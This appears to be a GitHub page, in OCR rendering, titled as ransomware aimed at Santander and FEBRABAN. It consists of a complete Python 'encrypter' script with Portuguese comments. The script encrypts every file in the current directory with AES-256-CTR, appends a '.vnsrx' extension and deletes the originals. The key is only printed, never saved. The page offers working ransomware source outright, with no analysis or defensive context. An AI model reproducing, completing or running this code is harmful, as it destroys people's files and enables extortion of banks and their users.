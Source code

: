 # SANTANDER_FEBRABAN_RANSOMWARE

ENCRYPTER
'''python
import os
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes

def generate_random_key(length=32):
    """Gera uma chave aleatória de 32 bytes."""
    return get_random_bytes(length)

def encrypt_file(file_name, key):
    try:
        # Lê os dados do arquivo
        with open(file_name, "rb") as file:
            file_data = file.read()

        # Cria um objeto AES com AES-256 no modo CTR
        cipher = AES.new(key, AES.MODE_CTR)

        # Criptografa os dados
        encrypted_data = cipher.encrypt(file_data)

        # Salva os dados criptografados em um novo arquivo
        new_file_name = file_name + ".vnsrx"
        with open(new_file_name, "wb") as file:
            file.write(cipher.nonce + encrypted_data)

        print(f"Arquivo {file_name} criptografado com sucesso e salvo como {new_file_name}!")

        # Verifica se o arquivo criptografado foi criado com sucesso
        if os.path.isfile(new_file_name):
            # Remove o arquivo original
            os.remove(file_name)
            print(f"Arquivo original {file_name} foi removido.")
        else:
            print(f"Erro: O arquivo criptografado {new_file_name} não foi criado.")
    except Exception as e:
        print(f"Ocorreu um erro: {e}")

def main():
    # Gera uma chave aleatória de 32 bytes
    key = generate_random_key(32)
    print(f"Chave gerada (não exiba esta chave para garantir segurança): {key.hex()}")

    # Processa os arquivos no diretório
    for file_name in os.listdir('.'):
        if os.path.isfile(file_name) and not file_name.endswith('.vnsrx') and file_name != os.path.basename(__file__):
            encrypt_file(file_name, key)

if __name__ == "__main__":
    main()

